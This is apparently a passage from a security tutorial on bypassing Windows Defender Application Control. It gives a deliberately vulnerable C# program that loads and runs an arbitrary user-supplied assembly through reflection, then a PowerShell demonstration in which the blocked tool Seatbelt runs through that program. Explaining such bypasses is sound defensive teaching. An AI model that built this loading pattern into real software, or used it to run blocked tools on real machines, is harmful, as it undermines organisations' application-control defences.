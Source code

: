 There are many different classes of application vulnerability such as DLL & COM hijacks, overflows, double-freeing, deserialization, and more.  Under the correct conditions, some of these can lead to a WDAC bypass.  WDAC does a good job at ensuring that a trusted app can't load untrusted modules and/or code.  For instance, DLL hijacks don't typically bypass WDAC.  The type of vulnerability that is most likely to result in a WDAC bypass is one where code is executed "inside" the trusted application.

We won't study each vulnerability class - this example shows how an unsafe use of reflection could be abused.  Reflection is a programming paradigm often used in Java and C# to dynamically create an instance of a type at runtime.

Consider the following C#:

```csharp
using System.IO;
using System.Reflection;

namespace VulnerableApp;

internal static class Program
{
    public static void Main(string[] args)
    {
        var bytes = File.ReadAllBytes(args[0]);
        var asm = Assembly.Load(bytes);

        asm.EntryPoint.Invoke(null, new object[]
        {
            new string[] { }
        });
    }
}
```

  

This application takes in a path to a .NET assembly on disk, and reads it as a raw byte array.  It passes those bytes to the `Assembly.Load` method, which loads the assembly into the `AppDomain` of itself.  After the assembly has been loaded, it calls its main entry point.  This works as a WDAC bypass because this trusted application is taking and loading content from an untrusted (user-supplied) location, similar to how a LOLBAS' work.

If, for example, we had `Seatbelt.exe` on the desktop, it can't execute it directly but it can via this app.

```powershell
PS C:\Users\hdoyle> .\Desktop\Seatbelt.exe
Program 'Seatbelt.exe' failed to run: Your organization used Device Guard to block this app.

PS C:\Users\hdoyle> & 'C:\Program Files\VulnerableApp\VulnerableApp.exe' .\Desktop\Seatbelt.exe

                        %&&@@@&&
                        &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
                        &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
#####%######################  %%%..                       @////(((&%%%%%%%################
                        &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
                        &%%&&&%%%%%        v1.1.1         ,(((&%%%%%%%%%%%%%%%%%,>
                         #%%%%##,
```

  

This is obviously a contrived example and the "exploitability" would depend on if and where the vulnerable code was exposed to the user.